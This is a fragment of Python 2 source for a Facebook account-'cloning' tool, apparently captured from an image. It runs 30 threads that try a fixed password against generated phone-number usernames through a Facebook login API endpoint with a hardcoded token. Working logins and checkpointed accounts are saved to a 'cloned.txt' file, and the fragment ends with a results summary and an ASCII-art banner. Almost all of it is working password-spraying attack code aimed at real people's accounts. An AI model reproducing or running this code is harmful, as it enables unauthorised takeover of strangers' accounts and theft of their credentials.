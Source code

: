                                             cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(ok✔)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
   
 ¸,.-~·*¨.::::::::::¨*·~-.,¸ 
      ¸.· ´::::::´: . · .¨             ::` ·.¸ 
  ¸·´,;':::::::' :· .     ·   .  :      ::::::`·¸ 
 ¸·;;;;'::::::: · . :'      ·    .     .  :::::::::·¸ 
,;;;;;;:::::::.:. ·         ·     :       :::::::::::.   
;;;;;;;;::::::..· :´  .       '     ·     .:::::::::::::                                        
';;;;;;;;,:::'::·.......¸.·::·.¸.......::::::::::::::::: 
 ';;;;;;;;;;;;;;,,¸:::::::::;::::::::::::::::::::::::::' 
 ';.¸.-·~·-.,¸;;;;;;,:::´`:::::::::::¸,.-·~·-.¸.::' 
  ;;`·.¸      ¯¨*·.¸';;.'::::.¸.·*¨¯       ¸.·´:: 
   ';;:::'`·.¸●       ')`:::::(     ●   ¸.·´::: 
     `·.::::::`·--·´ :::::: `·-·´ .::::·´::: 
         `·,;;:::.  :·:´ø· ø `. ::. ' ·.:::·´ 
            `·-.:::.·: ::.:.: · : :::::.-·´ 
               ·.::.·-~ .::·´::::: 
                 )`·.:.  : . ·.::·´( 
                ,/',; '`··´  :.'\ 
   _¸.·´,;;;             .:::.`·.¸_ 
.·´   |`:¯'`: |`:¯`:    |`:¯'`: |`·.¯¯¯¯`·´¯('|`:¯`·.  |`:¯: 
    .·´ .·´|`·.`:   :    `':   :  `·.`·.`·.¯`·.·´|'`: :`·.`·.
.·´  .·´__|   `·. :      |`·. `·.  `·. )  `>|.·'  : :`·.`·.`'
:    :¯¯¯:     :  `·´¯¯`·. :  :  .·´.·´_.·´`·.': :   `·.:  : 
`·._`·..·´   ¸.·|`·.·´¯`·.·´|`·.|·´_____.·.(·'_.|   '.·'_.| 